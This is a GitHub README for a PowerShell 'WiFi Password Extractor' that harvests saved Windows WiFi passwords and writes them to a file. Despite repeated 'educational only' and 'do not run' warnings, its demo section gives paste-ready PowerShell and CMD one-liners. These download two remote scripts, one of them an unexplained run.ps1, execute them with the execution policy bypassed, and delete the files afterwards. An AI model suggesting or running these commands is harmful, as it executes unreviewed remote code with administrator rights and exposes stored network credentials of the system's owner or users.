 <div align="center">

# ⚠️ SQD5-DCWH WiFi Password Extractor

<img src="https://img.shields.io/badge/PowerShell-5.1%2B-blue?style=for-the-badge&logo=powershell" alt="PowerShell">
<img src="https://img.shields.io/badge/Windows-7%20%7C%208%20%7C%2010%20%7C%2011-0078d4?style=for-the-badge&logo=windows" alt="Windows">
<img src="https://img.shields.io/badge/Status-EDUCATIONAL%20ONLY-red?style=for-the-badge" alt="Educational Only">

### _WiFi Password Extraction Tool - Educational Purposes Only_ 🎓

<img src="https://user-images.githubusercontent.com/74038190/212257454-16e3712e-945a-4ca2-b238-408ad0bf87e6.gif" width="100">

</div>

---

> [!DANGER]
>
> # 🚨 DO NOT RUN THIS SCRIPT! 🚨
>
> **THIS IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**
>
> - 🔴 **DO NOT EXECUTE** this script on any system
> - 🔴 **FOR LEARNING ONLY** - Study the code, don't run it
> - 🔴 **POTENTIAL SECURITY RISK** if misused
> - 🔴 **YOU ARE RESPONSIBLE** for any consequences

---

## 🎯 Quick Demo (Educational Only)

> [!WARNING] > **These commands are for educational demonstration only!**
>
> **DO NOT RUN unless you fully understand the risks and have proper authorization!**

### 🏃‍♂️ PowerShell One-Liner

```powershell
iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1" -OutFile "$env:TEMP\sqd5dcwh.ps1"; powershell -NoProfile -ExecutionPolicy Bypass -File "$env:TEMP\sqd5dcwh.ps1"; Remove-Item "$env:TEMP\sqd5dcwh.ps1" -Force; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1" -OutFile "$env:TEMP\run.ps1"; powershell -NoProfile -ExecutionPolicy Bypass -File "$env:TEMP\run.ps1"; Remove-Item "$env:TEMP\run.ps1" -Force

```

### 📱 CMD Version

```cmd
powershell -Command "iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1' -OutFile '%TEMP%\sqd5dcwh.ps1'; powershell -NoProfile -ExecutionPolicy Bypass -File '%TEMP%\sqd5dcwh.ps1'; del '%TEMP%\sqd5dcwh.ps1'; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1' -OutFile '%TEMP%\run.ps1'; powershell -NoProfile -ExecutionPolicy Bypass -File '%TEMP%\run.ps1'; del '%TEMP%\run.ps1'"

```

> [!CAUTION] > **REMEMBER:** Running these commands will:
>
> - Download and execute the script automatically
> - Request administrator privileges
> - Extract WiFi passwords from your system
> - **Only use on systems you own or have explicit permission to test!**

---

## 📋 What This Tool Does

This PowerShell script demonstrates WiFi password extraction techniques by:

- 🔍 Extracting saved WiFi profiles from Windows
- 📄 Displaying stored network passwords
- 💾 Exporting results to text file
- 🎨 Providing a colorful terminal interface

---

## 🔗 Script Location

**Main Script:** [sqd5dcwh.ps1](https://github.com/09sychic/sqd5-with-dcwh/blob/main/sqd5dcwh.ps1)

---

## 📋 System Requirements

<div align="center">

<img src="https://img.shields.io/badge/OS-Windows_7+-0078d4?style=flat-square&logo=windows" alt="Windows 7+">
<img src="https://img.shields.io/badge/PowerShell-5.1+-012456?style=flat-square&logo=powershell" alt="PowerShell 5.1+">
<img src="https://img.shields.io/badge/Privileges-Administrator-red?style=flat-square&logo=windows-terminal" alt="Admin Required">

</div>

---

## 🎓 Educational Use Cases

- **Security Research:** Understanding Windows credential storage
- **Penetration Testing Education:** Learning about local privilege escalation
- **PowerShell Learning:** Studying advanced scripting techniques
- **Cybersecurity Awareness:** Understanding password security risks

---

## ⚖️ Legal Disclaimer & Warnings

<div align="center">

<img src="https://user-images.githubusercontent.com/74038190/212257460-738ff738-247f-4445-a718-cdd0ca76e2db.gif" width="100">

</div>

> [!CAUTION] > **CRITICAL LEGAL AND SECURITY WARNINGS**
>
> ### 🚨 DO NOT USE FOR:
>
> - ❌ Unauthorized access to networks
> - ❌ Accessing systems without permission
> - ❌ Any illegal or malicious activities
> - ❌ Violating privacy or computer crime laws
>
> ### ✅ ONLY ACCEPTABLE FOR:
>
> - ✅ Educational research and learning
> - ✅ Authorized penetration testing
> - ✅ Personal system security assessment
> - ✅ Academic cybersecurity studies
>
> ### ⚠️ IMPORTANT NOTICES:
>
> - **YOU ARE FULLY RESPONSIBLE** for how you use this code
> - **RESPECT ALL LOCAL AND INTERNATIONAL LAWS**
> - **OBTAIN EXPLICIT PERMISSION** before testing on any system
> - **AUTHOR IS NOT LIABLE** for misuse or damages

---

## 🛡️ Security Considerations

- This tool demonstrates why saved passwords can be security risks
- Always use strong, unique passwords for WiFi networks
- Consider using WPA3 security protocols when available
- Regularly audit saved network profiles on your devices

---

## 🤝 Responsible Disclosure

If you discover security vulnerabilities through educational use of this code, please follow responsible disclosure practices and report findings to the appropriate parties.

---

## 📄 License

<div align="center">

<img src="https://img.shields.io/github/license/09sychic/sqd5-with-dcwh?style=for-the-badge&color=red" alt="License">

**This project is for educational purposes only**

</div>

---

<div align="center">

### ⚠️ Remember: With Great Power Comes Great Responsibility ⚠️

<img src="https://user-images.githubusercontent.com/74038190/212257468-1e9a91f1-b626-4baa-b15d-5c385dfa7cd2.gif" width="100">

**🎓 Learn Responsibly • 🛡️ Use Ethically • ⚖️ Follow Laws**

<img src="https://komarev.com/ghpvc/?username=09sychic&style=for-the-badge&color=red" alt="Profile Views">

</div>
